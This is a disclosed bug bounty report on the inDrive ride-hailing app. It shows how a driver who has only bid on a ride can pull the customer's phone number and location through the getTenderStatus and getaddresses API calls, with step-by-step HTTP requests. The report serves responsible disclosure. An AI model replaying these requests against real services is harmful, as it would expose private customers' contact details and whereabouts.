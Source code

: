 # # Drivers can access the customers phone number, current location without getting their offer accepted!

## Report Details
- **Report ID**: 1785079
- **URL**: https://hackerone.com/reports/1785079
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-11-27T13:19:52.577Z
- **Disclosed**: 2024-02-19T09:03:59.704Z

## Reporter
- **Username**: bugsv2
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: indrive

## Vulnerability Information
## Summary:
Hi Kirill, I wish you are fine today <3
I have a new bug today, leading to leak the phone number and the location of the customer
how? When the **driver** submit an offer/price to the customer, something is getting created called ```“tender”``` ```“id”```

██████████
Then alittle bit later, another requset is getting sent called ```"/api/getTenderStatus?"```

This request of ```getTender``` is asking for ```order_id=``` & ```tender_id=``` , Which got generated on the ```/api/driverrequest``` request (( as the screen shot ))

## Steps to reproduce:

1. Open the driver’s account, and wait till you get a ride from anyone!
    
    ███████
    
2. submit any price for the ride you selected
    
    ███
    
3. Now we can see the request of ```/api/driverrequest```
    
    ```
    POST /api/driverrequest?cid=9415&locale=en_US&job_id=███████ HTTP/1.1
    Host: terra-6.indriverapp.com
    X-App: android 5.8.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 293
    Accept-Encoding: gzip, deflate
    User-Agent: okhttp/4.10.0
    Connection: close
    
    phone=█████&token=████&v=7&stream_id=1669551146811201&order_id=█████████&client_id=█████████&████████&type=indriver&price=33&period=2&geo_arrival_time=105&distance=305&███&sn=1
    ```
    
    ```
    HTTP/1.1 200 OK
    Server: QRATOR
    Date: Sun, 27 Nov 2022 12:12:40 GMT
    Content-Type: application/json;charset=utf-8
    Content-Length: 1042
    Connection: close
    Access-Control-Allow-Origin: *
    X-XSS-Protection: 1; mode=block
    
    {"response":{"tender":{"id":█████,"driver_id":████,"client_id":███████,"order_id":███,"status":"wait","created":"Sun, 27 Nov 2022 21:12:40 +0900","modified":"Sun, 27 Nov 2022 21:12:40 +0900","price":33,"timeout":15,"expire_time":"Sun, 27 Nov 2022 21:12:55 +0900","type":"bid","period":2,"currency_code":"","distance":305,"counter_bid_price":0,"counter_bid_timeout":0,"driver":{"id":"████","username":"███████","avatarbig":"██████:██████:███:"",█████████,"carname":"Peugeot","carmodel":"508","carcolor":"black","rating":"5.000000","performed":1,"bid_label":null}}}}
    ```
    
4. Now we see the request and the response, and the customer didn’t accept our offer! But we still have the ```"tender":{"id":█████``` and ```"order_id":█████```
5. Now we gonna send the request of ```/api/getTenderStatus```
    
    ```
    POST /api/getTenderStatus?cid=9415&locale=en_US&job_id=6d4ddf82-40de-4b42-80cc-08c8be40a77e HTTP/1.1
    Host: terra-6.indriverapp.com
    X-App: android 5.8.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 129
    Accept-Encoding: gzip, deflate
    User-Agent: okhttp/4.10.0
    Connection: close
    
    order_id=<ORDER-ID>&tender_id=<TENDER-ID>&phone=<PHONE>&token=<TOKEN>&v=7&stream_id=1669550370135120
    ```
    
    Now we can see! 
    
    ███
    
6. Now we have the phone number and the lat,long of the customer. How can we get the location from the lat,long? By the following requset:
    
    ```
    POST /api/getaddresses?cid=9415&locale=en_US HTTP/1.1
    Host: terra-6.indriverapp.com
    X-App: android 5.8.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 177
    Accept-Encoding: gzip, deflate
    User-Agent: okhttp/4.10.0
    Connection: close
    
    phone=<NUMBER>&token=<TOKEN>&v=2&stream_id=1669551175078856&██████████&show_plus_code=false&type=start&source=order_form
    ```
    
    ██████

## Impact

* Drivers can leak the customers data, name, phone number, location.
* Drivers can access the customer data and do rides out of the application knowledge.
* Drivers cannot access the customers sensitive data like this. only when their offers get accepted.

## Attachments
No attachments
